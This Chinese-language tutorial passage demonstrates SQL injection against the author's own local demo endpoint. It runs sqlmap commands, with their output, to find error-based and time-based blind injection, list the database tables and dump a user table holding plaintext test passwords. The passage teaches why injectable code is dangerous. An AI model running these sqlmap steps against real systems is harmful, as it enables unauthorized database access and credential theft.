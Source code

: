 使用 sqlmap 来探索这个接口：

```shell
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test
```

一段时间后，sqlmap 给出了如下结果：

![image-20200724131218167](https://hankun-abyss.oss-cn-shanghai.aliyuncs.com/image2020/20200724131220.png)

可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```shell
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db
```

可以得到当前数据库是 common_mistakes：

```shell
current database: 'common_mistakes'
```

第二步，查询数据库下的表：

```shell
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"
```

可以看到其中有一个敏感表 userdata：

```shell
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+
```

第三步，查询 userdata 的数据：

```sh
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump
```

你看，**用户密码信息一览无遗。当然，你也可以继续查看其他表的数据**：

```sh
Database: common_mistakes
Table: userdata
[2 entries]
+----+-------+----------+
| id | name  | password |
+----+-------+----------+
| 1  | test1 | haha1    |
| 2  | test2 | haha2    |
+----+-------+----------+
```
